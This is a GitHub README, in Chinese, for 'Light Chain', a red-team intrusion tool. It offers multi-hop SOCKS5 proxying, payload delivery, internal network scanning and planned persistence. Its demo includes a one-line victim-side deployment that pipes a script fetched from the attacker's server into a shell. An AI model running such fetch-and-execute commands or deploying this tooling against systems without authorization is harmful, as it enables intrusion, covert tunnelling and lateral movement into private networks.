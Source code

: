 # Light Chain

![version](https://img.shields.io/github/v/release/MayMistery/LightChain?include_prereleases&label=version)
![license](https://img.shields.io/github/license/MayMistery/LightChain?color=FF5531)

红队工具，内网前哨站。轻量化，支持多级正、反向代理；载荷投递、落地；可以进行主、被动内网探测。

## Features

- socks5多级代理
- 长链路载荷投递一间落地
 

## Todo
- [ ] 增加端口转发
- [ ] 优化tcp载荷投递
- [ ] 增加一键部署脚本
- [ ] 考虑增加udp载荷投递
- [ ] 优化多级代理时的载荷投递时的参数配置
- [ ] 增加socks5代理
- [ ] 增加-d后台运行
- [ ] 增加日志输出（可配置
- [ ] 增加权限维持手段

# Demo(预期)

- 攻击机（公网）`lChain -srv eth0 8888`
- 攻击机（无公网ip）`lChain -srv eth0 -local 8888`
读取配置文件cfg.ini中的公网机ssh配置，利用ssh进行远端端口转发搭建公网服务
- 宿主端一键落地 `curl http://host:post/dep.sh | sh`（服务端运行时生成dep.sh）
- 宿主端 `lChain -slv eth0 -C '121.*.*.1:8888,121.*.*.2:8888' 8888`(部署在eth0网卡上，-C从宿主机到攻击机路径)


## Contributor

<a href="https://github.com/MayMistery/LightChain/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=MayMistery/LightChain" />
</a>